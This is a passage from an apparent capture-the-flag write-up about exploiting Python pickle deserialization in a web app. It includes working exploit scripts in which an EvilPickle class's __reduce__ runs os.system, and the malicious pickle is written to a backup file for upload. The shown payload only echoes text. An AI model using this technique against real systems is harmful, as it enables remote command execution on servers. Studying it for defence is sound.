 ```py
	print "Error 2"
	sys.exit()
data = open("backup.p", "rb").read()
if not "p1" in data:
	print "Error 3"
	sys.exit()

else:
	p_id = md5(char + quote).hexdigest()
	print p_id
```

That way I could check if my input was valid and, if so, get the location of the file created on the server. Then, I would go into the website, submit the data, and go to Burp to send the md5 hash.

I also found some code from a [website](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html) that showed how to exploit the loads function from cPickle:

```py
import pickle
import os
class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('echo Powned', ))
pickle_data = pickle.dumps(EvilPickle())
with open("backup.data", "wb") as file:
    file.write(pickle_data)
```

As the article said, when testing this locally, only Powned would be printed to the screen. I tried many combinations and functions, but nothing worked, I only got 500 Internal Errors. After many failed attempt, I concluded this process was time consuming and unsuccessful, for either I got the ``Still reviewing: + content`` message or the 500 error.

## Exploit 2.0

I decided to automate everything with a python script so that I could try things easily and faster than before.

```py

import pickle, os, sys
from hashlib import md5

class EvilPickle(object):
    def __reduce__(self):
	       return (os.system, ('echo Powned', ))
pickle_data = pickle.dumps(EvilPickle())
with open("backup.p", "wb") as file:
    print "------------------------\n"
    print char + pickle_data
    print "------------------------\n"
    file.write(char + pickle_data)
    file.close()

WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]

```